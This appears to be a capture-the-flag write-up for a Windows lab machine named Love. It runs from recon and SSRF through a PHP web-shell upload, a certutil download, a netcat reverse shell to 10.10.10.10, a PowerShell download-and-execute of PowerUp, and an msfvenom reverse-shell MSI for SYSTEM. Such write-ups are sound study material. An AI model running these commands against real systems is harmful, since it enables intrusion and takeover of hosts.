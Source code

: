 # Love

### Reconnaissance

- port 80/tcp HTTP Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)  
- port 135/tcp RPC  
- port 139/tcp NetBIOS  
- port 443/tcp HTTP Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)  
- port 445/tcp SMB Windows 10 Pro 19042 microsoft-ds  
- port 3306/tcp MySQL  
- port 5000/tcp HTTP Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)  
- port 5040/tcp ??  
- port 5986/tcp Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
- port 7680/tcp pando-pub  
- port 47001/tcp Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
- port 49664-49670/tcp RPC  

The HTTP server on port 80 is a login portal for a Voting System

![Login](./pictures/login.png)

Wappalyzer shows the server uses php

![Wappalyzer](./pictures/wappalyzer.png)

Directory enumeration shows an admin login at /admin

![Login](./pictures/admin.png)

The SSL certificate for port 443 shows a domain of love.htb and a subdomain of staging.love.htb. Adding them 
to /etc/hosts allows us to access the staging subdomain

![SSL](./pictures/ssl-cert.png)

The Demo tab allows us to scan a file by entering a url

![Scan](./pictures/staging-ssrf.png)

We can use SSRF to access the other HTTP server on port 5000, the dashboard shows the admin credentials for 
the love.htb/admin panel

![Scan](./pictures/staging-creds.png)

Logging in to the admin panel, we see that we can upload images by adding a new voter profile

![Add voter](./pictures/add-voter.png)

### Exploitation

There doesn't appear to be any filtering so we can just upload a php webshell

`<?php system($_REQUEST["cmd"]);?>`

We can execute commands by navigating to http://love.htb/images/rev.php and using the cmd parameter to enter 
the command, ensuring the command is urlencoded

We can upload nc.exe and get a stable shell by hosting the binary and using certutil to download it

`http://love.htb/images/rev.php?cmd=certutil+-urlcache+-f+http://10.10.10.10:8000/nc.exe+nc.exe`

Then start a netcat listener and run nc.exe to get a reverse shell

`http://love.htb/images/rev.php?cmd=nc.exe+10.10.10.10+4444+-e+cmd.exe`

### Privilege Escalation

Host PowerUp.ps1 then download and execute it with powershell (Don't forget to add Invoke-AllChecks on the 
last line of PowerUp.ps1)

`echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10:8000/PowerUp.ps1') | powershell -noprofile -`

We can see that AlwaysInstallElevated is set to true for HKCU and HKLM, allowing us to elevate privileges via 
a malicious msi

![HKCU](./pictures/hkcu.png)
![HKLM](./pictures/hklm.png)

Create the msi with msfvenom

`msfvenom windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f msi -o shell.msi`

Upload it to the target, start a listener, and use msiexec to run the malicious msi

`msiexec /quiet /qn /i shell.msi`

This gives us a System shell
